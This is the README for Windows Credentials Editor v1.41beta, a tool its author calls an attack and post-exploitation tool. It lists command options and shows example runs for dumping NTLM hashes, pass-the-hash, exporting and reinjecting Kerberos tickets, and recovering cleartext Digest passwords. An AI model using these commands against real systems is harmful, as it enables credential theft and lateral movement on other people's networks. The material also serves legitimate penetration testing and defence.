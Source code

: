 
Windows Credentials Editor v1.41beta (Universal Binary)
(c) 2010, 2011, 2012, 2013 Amplia Security, Hernan Ochoa
written by: hernan@ampliasecurity.com
http://www.ampliasecurity.com
-------------------------------------------------------------

Why is this a "Universal Binary" ?
---------------------------------

The wce.exe file in this package is a wrapper that detects at runtime if it
is running on a 32 bit or 64 bit version of Windows, dumps the appropiate version of WCE and
executes it.

This "universal binary" has many practical advantages; among others, it saves the user from 
having to use two different .exe files (WCE for 32bit systems and WCE for 64bit systems) and from
manually or programmatically detecting which one should be used. This makes scripting easier, for example, 
to use wce.exe against massive amounts of heterogenous systems whose architecture is unknown. 
The price to pay is a bigger executable file, which should not be an issue.

(Thank you Kevin Mitnick for the idea!)

Abstract
----------

Windows Credentials Editor (WCE) v1.41beta allows you to

NTLM authentication:

* List logon sessions and add, change, list and delete associated credentials (e.g.: LM/NT hashes)
* Perform pass-the-hash on Windows natively
* Obtain NT/LM hashes from memory (from interactive logons, services, remote desktop connections, etc.) which can be
used to authenticate to other systems. WCE can perform this task without injecting code, just by reading and decrypting information stored in Windows internal memory structures. It also has the capability to automatically switch to code injection when the aforementioned method cannot be performed

Kerberos authentication:

* Dump Kerberos tickets (including the TGT) stored in Windows machines
* Reuse/Load those tickets on another Windows machines, to authenticate to other systems and services
* Reuse/Load those tickets on *Unix machines, to authenticate to other systems and services

Digest Authentication:

* Obtain cleartext passwords entered by the user when logging into a Windows system, and stored by the Windows Digest Authentication security package


Supported Platforms
-------------------
Windows Credentials Editor supports Windows XP, 2003, Vista, 7, 2008 and 8.


Requirements
-------------
This tool requires administrator privileges to dump and add/delete/change NTLM credentials, and to dump cleartext passwords stored by the Windows Digest Authentication security package.

Kerberos tickets can be obtained as a normal user although administrator privileges might be required to obtain session keys depending on the system's configuration.

Please remember this is an attack and post-exploitation tool.

Options
--------
Windows Credentials Editor provides the following options:

Options:  
	-l		List logon sessions and NTLM credentials (default).
	-s		Changes NTLM credentials of current logon session.
			Parameters: <UserName>:<DomainName>:<LMHash>:<NTHash>.
	-r		Lists logon sessions and NTLM credentials indefinitely.
			Refreshes every 5 seconds if new sessions are found.
			Optional: -r<refresh interval>.
	-c		Run <cmd> in a new session with the specified NTLM credentials.
			Parameters: <cmd>.
	-e		Lists logon sessions NTLM credentials indefinitely.
			Refreshes every time a logon event occurs.
	-o		saves all output to a file.
			Parameters: <filename>.
	-i		Specify LUID instead of use current logon session.
			Parameters: <luid>.
	-d		Delete NTLM credentials from logon session.
			Parameters: <luid>.
	-a		Use Addresses.
			Parameters: <addresses>
	-f		Force 'safe mode'.
        -g              Generate LM & NT Hash.
                        Parameters: <password>.
        -K              Dump Kerberos tickets to file (unix & 'windows wce' form
at)
        -k              Read Kerberos tickets from file and insert into Windows
cache
	-w		Dump cleartext passwords stored by the digest authentication package
	-v		verbose output.

Examples:

	* List current logon sessions

C:\>wce -l
WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

meme:meme:11111111111111111111111111111111:11111111111111111111111111111111

	* List current logon sessions with verbose output enabled

C:\>wce -l -v
WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

Current Logon Session LUID: 00064081h
Logon Sessions Found: 8
WIN-REK2HG6EBIS\auser:NTLM
        LUID:0006409Fh
WIN-REK2HG6EBIS\auser:NTLM
        LUID:00064081h
NT AUTHORITY\ANONYMOUS LOGON:NTLM
        LUID:00019137h
NT AUTHORITY\IUSR:Negotiate
        LUID:000003E3h
NT AUTHORITY\LOCAL SERVICE:Negotiate
        LUID:000003E5h
WORKGROUP\WIN-REK2HG6EBIS$:Negotiate
        LUID:000003E4h
\:NTLM
        LUID:0000916Ah
WORKGROUP\WIN-REK2HG6EBIS$:NTLM
        LUID:000003E7h

00064081:meme:meme:11111111111111111111111111111111:11111111111111111111111111111111	

	* Change NTLM credentials associated with current logon session

C:\>wce -s auser:adomain:99999999999999999999999999999999:99999999999999999999999999999999
WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

Changing NTLM credentials of current logon session (00064081h) to:
Username: auser
domain: admin
LMHash: 99999999999999999999999999999999
NTHash: 99999999999999999999999999999999
NTLM credentials successfully changed!

	* Add/Change NTLM credentials of a logon session (not the current one)

C:\>wce -i 3e5 -s auser:adomain:99999999999999999999999999999999:99999999999999999999999999999999 
WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

Changing NTLM credentials of logon session 000003E5h to:
Username: auser
domain: admin
LMHash: 99999999999999999999999999999999
NTHash: 99999999999999999999999999999999
NTLM credentials successfully changed!

	* Delete NTLM credentials associated with a logon session

C:\>wce -d 3e5
WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

NTLM credentials successfully deleted!

	* Run WCE indefinitely, waiting for new credentials/logon sessions.
	Refresh is performed every time a logon event is registered in the Event Log.

C:\>wce -e

	* Run WCE indefinitely, waiting for new credentials/logon sessions
	Refresh is every 5 seconds by default.

C:\>wce -r

	* Run WCE indefinitely, waiting for new credentials/logon sessions, but refresh every 1 second (by default wce refreshes very 5 seconds)

C:\>wce -r5


	* Generate LM & NT Hash.
     
C:\>wce -g test
WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

Password:   test
Hashes:     01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537

	* Dump Kerberos tickets to file (unix & 'windows wce' format)      

C:\>wce -K
WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

Converting and saving TGT in UNIX format to file wce_ccache...
Converting and saving tickets in Windows WCE Format to file wce_krbtkts..
5 kerberos tickets saved to file 'wce_ccache'.
5 kerberos tickets saved to file 'wce_krbtkts'.
Done!

	* Read Kerberos tickets from file and insert into Windows cache

C:\>wce -k
WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

Reading kerberos tickets from file 'wce_krbtkts'...
5 kerberos tickets were added to the cache.
Done!

       * Dump cleartext passwords stored by the Digest Authentication package

C:\>wce -w
WCE v1.41beta (Windows Credentials Editor) - (c) 2010,2011,2012,2013 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
Use -h for help.

test\MYDOMAIN:mypass1234
NETWORK SERVICE\WORKGROUP:test



Additional Information
----------------------

* http://www.ampliasecurity.com/research.html
* http://www.ampliasecurity.com/research/wcefaq.html
* http://www.ampliasecurity.com/research/WCE_Internals_RootedCon2011_ampliasecurity.pdf
* http://www.ampliasecurity.com/research/wce12_uba_ampliasecurity_eng.pdf
